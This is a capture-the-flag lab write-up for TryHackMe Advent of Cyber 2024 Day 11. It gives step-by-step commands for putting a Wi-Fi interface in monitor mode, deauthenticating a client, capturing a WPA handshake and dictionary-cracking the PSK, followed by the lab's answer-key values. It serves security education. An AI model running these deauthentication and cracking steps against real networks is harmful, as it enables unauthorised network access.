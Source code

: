 # 🎄 TryHackMe Advent of Cyber 2024 – Day 11: Wi-Fi Attacks

## Objectives 🎯

Day 11 provides an in-depth exploration of Wi-Fi security and a hands-on demonstration of WPA/WPA2 cracking. This exercise highlights the vulnerabilities in wireless networks and the importance of strong security practices.

### Goals:
1. Learn about Wi-Fi and its critical role in organizations.
2. Understand various Wi-Fi attack techniques.
3. Perform a WPA/WPA2 cracking attack to capture a 4-way handshake and decrypt the Wi-Fi password (PSK).

## Steps 🚀

### Step 1: Preparing the Environment
1. **Start Machines**:  
   - Press the **Start Machine** button to initialize the target machine.  
   - Press the **Start AttackBox** button to set up the AttackBox environment.
2. **SSH into the Target Machine**:  
   Use the credentials provided:
   ```
   ssh glitch@MACHINE_IP
   Password: Password321
   ```

### Step 2: Analyzing Wireless Interfaces
1. **Check Wireless Device Information**:  
   Run `iw dev` to identify available wireless interfaces.  
   - **BSSID of our wireless interface**: `02:00:00:00:02:00`.
2. **Scan for Nearby Networks**:  
   Execute `sudo iw dev wlan2 scan` to list available Wi-Fi networks.  
   - **SSID and BSSID of the access point**: `MalwareM_AP, 02:00:00:00:00:00`.

### Step 3: Setting Monitor Mode
1. **Switch to Monitor Mode**:  
   ```
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```
2. **Confirm Monitor Mode**:  
   Use `sudo iw dev wlan2 info` to verify the interface is now in monitor mode.

### Step 4: Open a Second SSH Terminal
1. **Establish a Second SSH Session**:  
   Open another terminal to create a second SSH session into the target machine. This allows you to monitor Wi-Fi traffic in one session while executing attacks in the other.

2. **Capture Wi-Fi Traffic**:  
   On the first terminal, run `sudo airodump-ng wlan2` to display nearby networks and gather details such as signal strength, channel, and encryption type.  
   - **Focus on the target network**: `MalwareM_AP`.

3. **Target the Access Point**:  
   Run `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` to capture the 4-way handshake. Let this command run as you proceed.

### Step 5: Launch a Deauthentication Attack
1. **Identify Connected Clients**:  
   When a client connected to `MalwareM_AP` is detected, its **BSSID** will appear in the STATION section.  
   - **BSSID of the connected client**: `02:00:00:00:01:00`.

2. **Send Deauthentication Packets**:  
   Use `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` to disconnect the client and force a handshake.  
   - The captured handshake will appear in the output:  
     **`WPA handshake: 02:00:00:00:00:00`**.

### Step 6: Crack the WPA/WPA2 PSK
1. **Use Aircrack-ng**:  
   Perform a dictionary attack on the captured handshake:
   ```
   sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
   ```
2. **Decrypted PSK**:  
   - **Password (PSK)**: `fluffy/champ24`.

### Step 7: Connect to the Wi-Fi Network
1. **Generate a Configuration File**:  
   ```
   wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
   ```
2. **Join the Network**:  
   ```
   sudo wpa_supplicant -B -c config -i wlan2
   ```
3. **Verify Connection**:  
   Use `iw dev` to confirm the wireless interface is connected to `MalwareM_AP`.

## Key Findings 🔑

1. **Weak Passwords**:  
   A simple password (`fluffy/champ24`) allowed the network to be cracked quickly, emphasizing the need for strong, complex passphrases.
2. **4-Way Handshake Vulnerability**:  
   WPA/WPA2 handshake data can be exploited for offline attacks, highlighting the importance of secure configurations.
3. **Monitor Mode**:  
   Demonstrates the value of specialized tools for passive network analysis and security auditing.

## Lessons Learned 🌟

### Wi-Fi Security Insights:
- **Secure Passphrases**: Always use strong, complex passwords for Wi-Fi networks.
- **Monitor Mode**: Essential for analyzing network traffic and capturing handshake data.
- **Deauthentication Attacks**: Highlight the vulnerabilities in wireless protocols and the need for additional security layers.

### Tools and Techniques 🛠️
1. **`iw` and `airodump-ng`**: Analyze and monitor wireless networks.
2. **`aireplay-ng`**: Perform deauthentication attacks.
3. **`aircrack-ng`**: Conduct dictionary attacks to crack WPA/WPA2 passwords.

## Final Thoughts 🎁

This challenge reinforces the importance of robust wireless security practices. Organizations should regularly audit their networks, enforce strong password policies, and monitor for rogue access points to protect against unauthorized access.

### Answers ✅
1. **What is the BSSID of our wireless interface?**  
   **Answer**: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point?**  
   **Answer**: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**  
   **Answer**: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**  
   **Answer**: `fluffy/champ24`

5. **If you enjoyed this task, feel free to check out the Networking module.**  
   **Answer**: No answer needed.

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- [Day 5: XXE Exploitation](day5.md)  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Log Analysis](day7.md)  
- [Day 8: Shellcodes](day8.md)  
- [Day 9: GRC](day9.md)  
- [Day 10: Phishing](day_10.md)  
- **Day 11: Wi-Fi Attacks**
- [Day_12: Web Timing Attacks](day_12.md)
- [More Days to Come!](#)
